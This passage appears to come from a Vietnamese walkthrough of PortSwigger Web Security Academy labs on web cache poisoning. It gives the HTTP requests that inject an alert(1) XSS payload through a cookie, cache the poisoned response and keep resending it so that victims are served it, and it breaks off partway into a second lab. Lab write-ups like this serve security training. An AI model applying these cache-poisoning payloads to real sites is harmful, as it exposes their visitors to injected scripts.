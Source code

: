 ```http
GET / HTTP/2
Host: 0afc00910330cd55800d677900d1002e.web-security-academy.net
Cookie: session=DzxU9OJ062HzX0ZI4tskdgfBdWo7zsUZ; fehost=prod-cache-01
```

```html
<script>
    data = {"host":"0afc00910330cd55800d677900d1002e.web-security-academy.net","path":"/","frontend":"prod-cache-01"}
</script>
```
- Gửi **request** sang **Repeater** và thêm **cache-buster** vào để đảm bảo **cache** không ảnh hưởng (ép server phản hồi mới)
- Chèn payload XSS vào và gửi request

```http
GET /?xnxx HTTP/2
Host: 0afc00910330cd55800d677900d1002e.web-security-academy.net
Cookie: session=DzxU9OJ062HzX0ZI4tskdgfBdWo7zsUZ; fehost=xnxx"+alert(1)+"xnxx
```

```html
<script>
    data = {"host":"0afc00910330cd55800d677900d1002e.web-security-academy.net","path":"/","frontend":"xnxx"+alert(1)+"xnxx"}
</script>
```
- **Replay** cho đến khi thấy `X-Cache: hit` => **response** đã được **cache**
- **Reload** browser => **XSS** xảy ra

#### Exploit
- Gửi **request** không có **cache-buster**

```http
GET / HTTP/2
Host: 0afc00910330cd55800d677900d1002e.web-security-academy.net
Cookie: session=DzxU9OJ062HzX0ZI4tskdgfBdWo7zsUZ; fehost=xnxx"+alert(1)+"xnxx
```
- Vì **cache** có thể **expire (hết hạn)** trong vài giây hoặc phút => cần liên tục gửi lại **request** độc để giữ **payload** trong **cache**
- Khi **victim** truy cập **site**, họ sẽ nhận đúng bản phản hồi bị **poison** 

### Lab: Web cache poisoning with multiple headers
#### Analysis
- Truy cập trang 
- Quan sát ta thấy **script** có **src** đến `/resources/js/tracking.js`

```html
<script type="text/javascript" src="/resources/js/tracking.js"></script>
```
- Gửi **request** đến `/resources/js/tracking.js` qua **repeater**

```http
GET /resources/js/tracking.js HTTP/2
Host: 0ad30039049f7078828d796d00f300f4.web-security-academy.net
```
- Thêm header **X-Forwarded-Scheme** và **cache-buster** và gửi lại request
